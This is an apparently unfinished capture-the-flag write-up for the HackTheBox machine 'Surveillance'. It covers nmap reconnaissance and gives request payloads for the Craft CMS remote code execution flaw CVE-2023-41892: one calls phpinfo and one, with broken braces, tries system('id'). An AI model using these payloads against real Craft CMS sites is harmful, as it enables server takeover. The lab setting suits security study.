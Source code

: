 # #1 Introduction
<img width="687" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/2158efa4-9724-430c-95f9-a5cbb772171f"># #1 Introduction

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx surveillance.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- surveillance.htb
```

we got these open ports
```bash

```

# #3 user.txt

## HTTP (port 80)


Powered by Craft CMS
https://github.com/craftcms/cms/tree/4.4.14
https://threatprotect.qualys.com/2023/09/25/craft-cms-remote-code-execution-vulnerability-cve-2023-41892/

CVE-2023-41892
https://blog.calif.io/p/craftcms-rce

\GuzzleHttp\Psr7\FnStream

public function __destruct()
{
   if (isset($this->_fn_close)) {
       call_user_func($this->_fn_close);
   }
}


action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()":[{"close":null}], "_fn_close":"phpinfo"}}

action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream","__construct()":[{"close":null}], "_fn_close":"function () {system('id');"}}
